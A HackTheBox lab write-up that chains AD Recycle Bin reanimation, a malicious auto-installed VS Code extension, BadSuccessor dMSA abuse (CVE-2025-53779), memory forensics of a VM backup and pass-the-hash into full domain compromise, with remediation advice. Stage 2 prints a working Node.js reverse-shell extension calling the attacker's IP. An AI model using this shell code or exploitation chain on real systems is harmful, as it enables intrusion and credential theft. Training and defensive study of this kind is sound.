# HackTheBox — Checkpoint

> **Windows Server 2025 Active Directory — Assumed-Breach Assessment**
> **Full domain compromise: User + Root**
> **Author:** Darina Askarova · **HTB handle:** Dragon
> **Attacker IP:** `10.10.14.30` (HTB VPN)
> **Engagement:** Authorized HackTheBox lab exercise — for training and educational purposes.

> ⚠️ **Note:** Flag values and recovered secrets (passwords, NT hashes) are **redacted**
> throughout this report and blacked out in every screenshot, in line with HackTheBox's policy
> against publishing answers for machines.

| | |
|---|---|
| **Machine** | Checkpoint (HackTheBox) |
| **Target host** | `DC01.checkpoint.htb` |
| **IP address** | `10.129.95.128` |
| **Operating system** | Windows Server 2025 (Build 26100) |
| **Difficulty** | Medium |
| **Domain** | `checkpoint.htb` |
| **Engagement model** | Assumed breach (low-priv credentials provided) |
| **Starting account** | `alex.turner` (password redacted) |
| **Attacking host** | Arch Linux — `10.10.14.30` (HTB VPN) |
| **Result** | Full domain compromise — user.txt + root.txt captured |

---

## 1. Executive summary

This report documents an **assumed-breach** penetration test of the Active Directory domain
`checkpoint.htb`, hosted on a single Windows Server 2025 domain controller (DC01, `10.129.95.128`).
The assessment began with the credentials of one low-privileged domain user, `alex.turner`, and set
out to determine what an attacker holding such an account could achieve.

Starting from that single foothold, five distinct weaknesses were chained into a **full compromise
of the domain** — SYSTEM-level control of the domain controller and both the user and Administrator
(root) flags. No brute-forcing, memory-corruption exploitation, or physical access was required;
the entire path relied on misconfigurations, excessive privileges, and poor credential hygiene.

**Attack path at a glance:**

| Step | Movement | Technique |
|------|----------|-----------|
| 1 | `alex.turner` → `mark.davies` | Reanimate a deleted account from the AD Recycle Bin via excessive ACLs |
| 2 | `mark.davies` → `ryan.brooks` | Malicious VS Code extension auto-installed from a user-writable share (**user flag**) |
| 3 | → `svc_deploy` | BadSuccessor / dMSA abuse (**CVE-2025-53779**) to harvest a service account's Kerberos keys |
| 4 | `svc_deploy` → `Administrator` | Read an unprotected VM memory backup, recover the admin hash via memory forensics |
| 5 | Domain takeover | Pass-the-hash to the DC as domain Administrator (**root flag**) |

**Overall risk: Critical.** A single deliberately low-privileged account was sufficient to fully
compromise the domain. Over-delegated directory permissions, systemic password reuse, an unsigned
auto-deployment mechanism, an abusable privilege-escalation primitive, and unprotected backups
containing live credentials together represent a critical risk to the confidentiality, integrity
and availability of the environment.

---

## 2. Scope & rules of engagement

The assessment was limited to the single in-scope host, under an **assumed-breach** model (valid
low-privileged credentials supplied at the outset, as is common in modern real-world engagements).

| Item | Value |
|------|-------|
| In-scope host | `10.129.95.128` (DC01.checkpoint.htb) |
| Provided credentials | `alex.turner` (password redacted) |
| Objective | Enumerate the domain, escalate privileges, and demonstrate impact |
| Flags | `user.txt` and `root.txt` as proof of access |
| Environment | HackTheBox lab (authorized) |

All activity was performed from the attacking host at `10.10.14.30` over the HackTheBox VPN. No
denial-of-service, data destruction, or out-of-scope activity was performed.

---

## 3. Methodology

The engagement followed a standard offensive workflow, broadly aligned to the Penetration Testing
Execution Standard (PTES) and mapped to MITRE ATT&CK (Appendix C):

1. **Reconnaissance & enumeration** — port/service discovery, then authenticated AD enumeration
   (LDAP, SMB) to map users, ACLs, shares and delegation.
2. **Privilege escalation** — iterative identification and abuse of misconfigurations to move
   between accounts of increasing privilege.
3. **Credential access** — extraction of secrets from Active Directory, Kerberos, and a backup
   memory image.
4. **Domain takeover** — using recovered domain-administrator credentials to assert full control
   of the domain controller.

Primary tooling: `nmap`, `NetExec/bloodyAD`, `Impacket`, `Volatility 3`, `smbclient`, and standard
Kerberos utilities (full list in Appendix B).

---

## 4. Findings summary

| ID | Finding | Severity |
|----|---------|----------|
| F-01 | Excessive Active Directory ACLs (AD Recycle Bin reanimation & OU CreateChild) | 🟠 High |
| F-02 | Pervasive password reuse across accounts and tiers | 🟠 High |
| F-03 | Insecure auto-deployment of unsigned VS Code extensions from a user-writable share | 🔴 Critical |
| F-04 | BadSuccessor / delegated MSA privilege escalation (CVE-2025-53779) | 🔴 Critical |
| F-05 | Domain-administrator credentials exposed via unprotected VM backup (disk + memory image) | 🔴 Critical |

Detailed descriptions, impact and remediation are in Section 6.

---

## 5. Attack narrative

### 5.0 Reconnaissance

A full TCP port scan followed by service/version detection identified the host as a Windows Active
Directory domain controller for `checkpoint.htb` (hostname DC01):

```bash
sudo nmap -p- --min-rate 5000 -T4 10.129.95.128 -oN nmap-allports.txt
sudo nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 \
     10.129.95.128 -oN nmap-scripts.txt
```


*Figure 1 — Full port and service scan: the target is a Windows Server 2025 domain controller for `checkpoint.htb` (DC01). LDAP signing is required and the DC clock is skewed ~7h — both important later.*

Open services confirmed a DC: DNS (53), Kerberos (88), LDAP/LDAPS (389/636), SMB (445), Global
Catalog (3268/3269), WinRM (5985) and ADWS (9389). Two facts noted here proved important later:
**LDAP required signing** (plaintext simple binds were rejected), and the **DC clock was skewed
~7 hours** from the attacker — a problem for Kerberos.

### 5.1 Stage 1 — AD Recycle Bin reanimation (`alex.turner` → `mark.davies`)

Authenticated enumeration of `alex.turner`'s writable objects revealed three abusable rights:
`WRITE` over the Deleted Objects container, `CREATE_CHILD` over `OU=Employees` (including the
ability to create dMSA objects — relevant in Stage 3), and full `WRITE` over a deleted user object,
Mark Davies, still recoverable from the AD Recycle Bin.

```bash
bloodyAD --host 10.129.95.128 -d checkpoint.htb -u alex.turner \
  -p '<REDACTED-PW>' get writable --detail
```

Because the AD Recycle Bin preserves all attributes of a deleted object (**including its password**),
the account was reanimated, re-enabled, and authenticated with the domain's reused password:

```bash
# Reanimate the deleted account
bloodyAD --host 10.129.95.128 -d checkpoint.htb -u alex.turner -p '<REDACTED-PW>' \
  set restore 'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,\
               CN=Deleted Objects,DC=checkpoint,DC=htb'

# Re-enable it
bloodyAD --host 10.129.95.128 -d checkpoint.htb -u alex.turner -p '<REDACTED-PW>' \
  remove uac mark.davies -f ACCOUNTDISABLE

# Confirm access + enumerate shares
smbclient -L //10.129.95.128/ -U 'checkpoint.htb\mark.davies%<REDACTED-PW>'
```


*Figure 2 — `mark.davies` (reanimated) authenticates over SMB (password redacted). The **DevDrop** (writable) and **VMBackups** shares are now visible.*

**Outcome:** control of `mark.davies`, whose share access exposed two shares of interest —
**DevDrop** (writable) and **VMBackups**.

### 5.2 Stage 2 — Malicious VS Code extension (`mark.davies` → `ryan.brooks`)

The **DevDrop** share was a drop point for "approved `.vsix` packages compatible with VS Code engine
1.118.0". A scheduled task (`\VSCodeExtSync`) running as `ryan.brooks` automatically installs and
activates any `.vsix` placed there, roughly once a minute. Because a VS Code extension's activation
code runs in the Node.js extension host with the privileges of that user, writing a malicious
extension yields **code execution as `ryan.brooks`**.

A minimal extension was built whose `activate()` opens a Node reverse shell (spawning `cmd.exe` —
quieter against Defender than an encoded PowerShell payload):

```javascript
// extension/extension.js
const net = require("net"); const cp = require("child_process");
function activate(context) { connect(); }
function connect() {
  const c = new net.Socket();
  c.connect(9001, "10.10.14.30", function () {
    const sh = cp.spawn("cmd.exe", []);
    c.pipe(sh.stdin); sh.stdout.pipe(c); sh.stderr.pipe(c);
    sh.on("exit", function () { c.end(); });
  });
  c.on("error", function () { setTimeout(connect, 5000); });
}
function deactivate() {}
module.exports = { activate, deactivate };
```

The four VSIX components (`extension.js`; `package.json` with `engines.vscode ^1.118.0` and
`activationEvents ["*"]`; `extension.vsixmanifest`; `[Content_Types].xml`) were zipped into a
`.vsix`, uploaded to DevDrop, and a listener was started:

```bash
smbclient //10.129.95.128/DevDrop -U 'checkpoint.htb\mark.davies%<REDACTED-PW>' \
  -c 'put checkpoint-helper.vsix'
nc -lvnp 9001
```

Within ~60 seconds the scheduled task installed and activated the extension, returning a shell as
`checkpoint\ryan.brooks` and the first flag:

```
C:\> whoami
checkpoint\ryan.brooks
C:\> type C:\Users\ryan.brooks\Desktop\user.txt
[USER FLAG — REDACTED]
```


*Figure 3 — The scheduled task auto-installs the malicious `.vsix`, returning a shell as `checkpoint\ryan.brooks`; `user.txt` is read (value blacked out).*

### 5.3 Stage 3 — BadSuccessor / dMSA abuse (→ `svc_deploy`)

Windows Server 2025 introduced delegated Managed Service Accounts (dMSAs) with a "migration"
feature: a dMSA can be marked as the successor of another account, and the KDC will then issue
Kerberos tickets containing the predecessor's keys. Any principal able to create a dMSA object in an
OU can abuse this (**BadSuccessor, CVE-2025-53779**). `alex.turner` held exactly that right
(`CreateChild` for `msDS-DelegatedManagedServiceAccount` on `OU=Employees`), so the attack was
performed as `alex.turner`.

```bash
bloodyAD --host 10.129.95.128 -d checkpoint.htb -u alex.turner -p '<REDACTED-PW>' \
  add badSuccessor evilmsa \
  -t 'CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb' \
  --ou 'OU=Employees,DC=checkpoint,DC=htb'
```


*Figure 4 — The dMSA `evilmsa$` is created, but the initial S4U2self fails with `KDC_ERR_ETYPE_NOTSUPP` — the DC refuses legacy RC4, breaking bloodyAD's Kerberos library.*

Three obstacles were encountered and overcome — worth recording, as they reflect a modern,
partially-hardened DC:

- **Clock skew (`KRB_AP_ERR_SKEW`).** The DC was ~7h ahead. Rather than fight the system clock,
  Kerberos tools were wrapped with `faketime` to present a consistent +7h offset.
- **RC4 disabled (`KDC_ERR_ETYPE_NOTSUPP`).** The DC refused legacy RC4, breaking bloodyAD's
  Kerberos library. Impacket (which negotiates AES) was used instead.
- **Patched KDC requiring a two-way link (`KRB_ERR_GENERIC`).** The DC enforced the post-patch
  behaviour, requiring the target account to also reference the dMSA. `alex.turner` could not write
  `svc_deploy`, but the `ryan.brooks` shell could — so the reverse link was set from that session:

```powershell
# Run in the ryan.brooks shell (PowerShell, integrated auth)
Set-ADObject -Identity 'CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb' \
  -Replace @{ 'msDS-SupersededManagedAccountLink' =
                'CN=evilmsa,OU=Employees,DC=checkpoint,DC=htb';
             'msDS-SupersededServiceAccountState' = 2 }
```


*Figure 5 — The reverse `msDS-SupersededManagedAccountLink` is written on `svc_deploy` from the `ryan.brooks` PowerShell session using integrated auth (returns `OK_ADMODULE`).*


*Figure 6 — Attribute state of the dMSA `evilmsa$` and `svc_deploy` during troubleshooting: migration state, `msDS-GroupMSAMembership`, and the superseded links.*

With the two-way migration link in place, Impacket obtained a TGT for `alex.turner` and performed an
S4U2self request impersonating the dMSA, causing the KDC to return `svc_deploy`'s keys inside the
`KERB-DMSA-KEY-PACKAGE`:

```bash
faketime -f '+7h' getTGT.py -dc-ip 10.129.95.128 \
  checkpoint.htb/alex.turner:'<REDACTED-PW>'
export KRB5CCNAME="$PWD/alex.turner.ccache"
faketime -f '+7h' getST.py -k -no-pass -dc-ip 10.129.95.128 \
  -impersonate 'evilmsa$' -self -dmsa checkpoint.htb/alex.turner

[*] Previous keys:
[*] rc4_hmac : [svc_deploy NT hash — REDACTED]
```


*Figure 7 — `getST` performs S4U2self impersonating the dMSA; `svc_deploy`'s key is returned under **Previous keys** (all key material blacked out).*

**Outcome:** `svc_deploy`'s NT hash. This account is a member of **Remote Management Users** (WinRM)
and **BackupAccess** (read access to the VMBackups share).


*Figure 8 — `svc_deploy`'s group memberships confirm **BackupAccess** and **Remote Management Users**; the attacker clock is synced to the DC.*

### 5.4 Stage 4 — Backup & memory forensics (`svc_deploy` → `Administrator`)

Using `svc_deploy`'s hash (pass-the-hash over SMB), the **VMBackups** share was accessible. It
contained a folder tellingly named "memory forensics" holding a VMware snapshot of a Windows Server
2019 member server — including a 2 GB memory image (`.vmem`).

```bash
H=<svc_deploy-hash-REDACTED>
smbclient //10.129.95.128/VMBackups -U "checkpoint.htb\svc_deploy%$H" \
  --pw-nt-hash -c 'prompt OFF; cd "NightlyBackup_2024-11-01\memory forensics"; \
                   get "Windows Server 2019-Snapshot1.vmem" ws2019.vmem; \
                   get "Windows Server 2019-Snapshot1.vmsn" ws2019.vmsn'
```


*Figure 9 — Pass-the-hash access to **VMBackups** reveals a VMware snapshot of a 2019 member server, including the `.vmem` memory image, under a "memory forensics" folder.*

Rather than pulling the 9.5 GB disk, the far smaller RAM image was analysed with **Volatility 3**.
The registry hives were carved out of memory and dumped, then processed offline with Impacket's
`secretsdump`:

```bash
vol -f ws2019.vmem windows.info                    # confirms Server 2019 / build 17763
vol -o ./hives -f ws2019.vmem windows.registry.hivelist --dump

secretsdump.py LOCAL \
  -sam      registry.SAM.*.hive \
  -system   registry.SYSTEM.*.hive \
  -security registry.SECURITY.*.hive

Administrator:500:...:[LOCAL ADMIN HASH — REDACTED]:::
```


*Figure 10 — Volatility 3 lists and dumps the registry hives (SYSTEM, SAM, SECURITY) directly from the memory image, ready for offline `secretsdump`.*

**Outcome:** the member server's local Administrator hash — **reused as the domain Administrator
password** (see F-02).

### 5.5 Stage 5 — Domain takeover (root)

The recovered hash was passed to the domain controller as the domain Administrator (NTLM, so no
Kerberos/clock concerns), yielding an administrative shell on DC01 and the root flag:

```bash
wmiexec.py -hashes :[ADMIN HASH — REDACTED] \
  checkpoint.htb/Administrator@10.129.95.128

C:\> whoami
checkpoint\administrator
C:\> type C:\Users\max.palmer\Desktop\root.txt
[ROOT FLAG — REDACTED]
```


*Figure 11 — Pass-the-hash to DC01 as the domain **Administrator** (`whoami` → `checkpoint\administrator`); `root.txt` is read (value blacked out).*

---

## 6. Detailed findings & remediation

### F-01 — Excessive Active Directory ACLs · 🟠 High
**Description.** `alex.turner` held `WRITE` over the Deleted Objects container and `CREATE_CHILD`
over `OU=Employees`, plus full `WRITE` over a deleted user object. These allowed reanimation of a
deleted account (with its original password intact) and creation of arbitrary child objects,
including delegated MSAs.
**Impact.** Reanimating `mark.davies` provided the second foothold, and the `CreateChild` right was
the precondition for the Stage 3 (BadSuccessor) escalation.
**Remediation.** Audit delegated ACLs and apply least privilege; remove write/reanimation rights
over Deleted Objects from non-administrators; restrict `CreateChild` on OUs and specifically deny
creation of `msDS-DelegatedManagedServiceAccount` objects to standard users; adopt a tiered
administration model and review AD attack paths (e.g. BloodHound).

### F-02 — Pervasive password reuse · 🟠 High
**Description.** A single password was valid for multiple domain accounts, and the local
Administrator password of a backed-up member server was identical to the domain Administrator
password.
**Impact.** Password reuse collapsed several stages: reanimated and pivoted accounts authenticated
immediately, and the local admin hash recovered from a backup granted domain-wide control.
**Remediation.** Enforce unique, high-entropy passwords per account; deploy Windows LAPS so every
machine's local Administrator password is unique and rotated; separate and vault service-account
credentials; monitor for reuse across tiers.

### F-03 — Insecure auto-deployment of unsigned VS Code extensions · 🔴 Critical
**Description.** A scheduled task running as `ryan.brooks` automatically installed and activated any
`.vsix` dropped into the DevDrop SMB share, which was writable by a standard user. Extension
activation code runs in the Node.js extension host with that user's privileges — an arbitrary
code-execution and lateral-movement primitive.
**Impact.** Any user able to write to the share obtained code execution as `ryan.brooks`. Comparable
supply-chain pipelines could equally deliver ransomware or persistence.
**Remediation.** Never auto-install unsigned or untrusted extensions; require code signing and
verify publishers; restrict write access to the deployment share to trusted administrators; run the
deployment task under a dedicated least-privileged identity; apply application allowlisting; alert
on writes to software-distribution shares.

### F-04 — BadSuccessor / delegated MSA privilege escalation (CVE-2025-53779) · 🔴 Critical
**Description.** Windows Server 2025's dMSA migration feature was abused: a user with rights to
create a dMSA created one that "superseded" `svc_deploy`, then used Kerberos (S4U2self with the dMSA
flag) to retrieve `svc_deploy`'s keys from the `KERB-DMSA-KEY-PACKAGE`. Although the DC carried the
August 2025 patch (requiring a two-way migration link), the target's superseded-link attributes
were writable by another compromised account, satisfying the check.
**Impact.** Turned the ability to create a dMSA object into the ability to steal an existing service
account's credentials — bridging the standard-user tier to a service account with backup and
remote-management rights.
**Remediation.** Apply the CVE-2025-53779 patch (it was here) and, critically, restrict who can
create dMSA objects and who can write `msDS-Superseded*` / `msDS-ManagedAccountPrecededByLink`
attributes; treat dMSA creation as tier-0; monitor for dMSA creation and unexpected S4U2self
activity; keep RC4 disabled and enforce AES-only Kerberos.

### F-05 — Domain credentials exposed via unprotected VM backup · 🔴 Critical
**Description.** A service account (via `BackupAccess`) could read full VM backups — including a
memory snapshot — of a domain-joined server. Offline analysis of the memory image and its registry
hives yielded the local Administrator hash, which (per F-02) was the domain Administrator password.
**Impact.** Backups containing live OS memory and registry hives are, in effect, credential stores.
Read access to them handed over the domain — the final step to full compromise.
**Remediation.** Encrypt backups at rest and strictly limit read access to dedicated backup
operators; never store memory snapshots (which contain LSASS and registry secrets) where ordinary
service accounts can reach them; segregate and harden backup infrastructure; log and alert on access
to backup repositories; rotate any credentials captured in historic backups.

---

## 7. Appendices

### Appendix A — Credentials & secrets recovered
All values redacted in line with HackTheBox policy.

| Account | Type | Value |
|---------|------|-------|
| `alex.turner` | Password (given) | `[REDACTED]` |
| `mark.davies` | Password (reused) | `[REDACTED]` |
| `ryan.brooks` | Interactive shell | via malicious VSIX (no password recovered) |
| `svc_deploy` | NT hash | `[REDACTED]` |
| `Administrator` | NT hash | `[REDACTED]` |
| `user.txt` | Flag | `[REDACTED]` |
| `root.txt` | Flag | `[REDACTED]` |

### Appendix B — Tools used
| Tool | Purpose |
|------|---------|
| `nmap` | Port and service discovery |
